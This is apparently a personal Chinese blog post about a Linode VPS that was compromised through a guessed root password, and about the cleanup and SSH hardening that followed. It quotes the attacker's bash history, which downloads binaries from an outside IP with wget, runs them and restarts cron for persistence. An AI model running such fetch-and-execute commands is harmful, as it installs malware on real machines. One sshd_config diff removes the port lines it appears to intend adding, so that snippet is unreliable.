 ```yaml
---
title: linode 使用记
image: https://yun.weenas.com:8006/i/2023/06/04/647c0b71201f2.jpg
date: 2016-12-21 14:48:15
tags:
description: "VPS初体验"
categories:
  - 网络
  - VPS
keywords:
  - VPS
  - linode
hide: true
---
```


使用Linode也有一段时间了，感觉非常不错，虽然使用的是加州的机房，延时基本上稳定在200ms左右，web访问感觉不明显，ssh尚可接受。据说日本机房在100ms多一点，但是考虑到要做迁移工作，还是先保持不动吧，待有时间再研究。

## 被攻击了

由于以前都是在局域网或者虚拟机上搭建服务器，从来没有关注过安全方面的配置，导致我的VPS安全配置不足。上个月遭受到Dos攻击，让我意识到了安全的重要性 ，以前没有什么概念，原来网络攻击离我们这么近。

被攻击后的症状是疯狂的往外发数据，从下面的图表可以看出有三天的时间几乎是满负荷的发送（注意看左边的单位），导致我2TB的流量在两天不到就被消耗殆尽。其实在使用80%流量时系统会自动发送邮件提醒，当时正值国庆假期，收到邮件时没有引起重视。后来Linode客服也发现了异常，主动创建了一个Ticket问我是怎么回事，我才发现流量已经超了400多G。。

![linode_data_traffic.jpg](https://yun.weenas.com:8006/i/2023/06/04/647c0b7224c8f.jpg)

赶紧登录上去使用nethogs查看网络使用情况，原来是一个名叫mysql515的进程在以80Mbps左右的速度往外发送数据，立即kill掉再想办法清理。

想要知道为什么被攻击，就必须知道哪些人登录过服务器，`/var/log/auth.log`是一个重要的线索，它记录了所有用户的登录日志。打开后非常壮观，已经有好几万行的日志，其中有很大一部分都是尝试root和admin的错误登录记录，应该是利用脚本不断的尝试root密码。这么多日志也不好去查什么时间被谁攻破，我估计root密码已经被试出来了，因为我的密码是一个常用单词。查看`/root/.bash_history`，一切都明白了：

```log
service crond start
/etc/rc.d/init.d/crond start
killall -9 cnet2
cd /bin
rm -rf cnet2
wget -c http://61.160.194.120:120/cnet2
chmod 0755 /bin/cnet2
./cnet2
cd /etc
mkdir init.d
mkdir rc.d
cd /etc/rc.d
mkdir rc5.d
cd /bin
rm -rf mysql515 cnet2 socket
wget -c http://61.160.194.120:121/mysql515
chmod 0777 /bin/mysql515
./mysql515
service crond start
/etc/rc.d/init.d/crond start
```

按图索骥，根据它执行的命令将所有相关的文件找到并彻底删除，注意有启动cron服务，它在`/etc/crontab`里面增加了一个定时启动脚本，也要一并删除，不然还会死灰复燃。

## 如何防护

以上只是查找和清除病毒文件，如何防止以后再被攻击呢？我做了以下措施：

1. 必须的，修改root密码，大写小写数字符号，能用上的都用上，不要忘记就好。:)
2. 禁止ssh的root登录

```diff
/etc/ssh/sshd_config
- PermitRootLogin yes
+ PermitRootLogin no
```

3. 修改ssh的默认端口，只要65535以内都行，比如修改为`622`。当然，登录需要多增加一个端口参数：`ssh -p 622 user@server.com`，另外还要注意修改服务器的防火墙设置。

```diff
/etc/ssh/sshd_config
- Port 22
- Port 622
```

4. 改用ssh密钥登录,即使用`ssh-keygen`生成公钥和私钥，在服务器配置好私钥，远程使用公钥登录，这样可以完全禁用密码登录

修改后，再去查看`/var/log/auth.log`，世界一下就清净了。当然，以上的修改不足以使VPS非常安全，但是防止普通的攻击已经足够了。

这里要赞一个Linode的客服，他们的服务非常的周到而且专业，主动建立Ticket，每天都会在Ticket上问你的进展并询问你是否需要帮助，在任何时候你需要帮助他们都会在10分钟以内给予你答复，一个月10刀的价格我觉得值了，想想国内的公司什么时候能做到这种水平。

忘记说超流量的收费问题了，信用卡账单下来才知道这个月多收了47刀，价格是0.1刀/1G，也就是说我超了470G，价格不便宜，但是正常使用我想怎么样也不会超吧，所以请大家千万做好防护措施。万幸的是攻击发生在月末，有部分流量是算10月份的，否则多交的钱可能翻番。

最后，祝大家都能拥有满意的VPS！
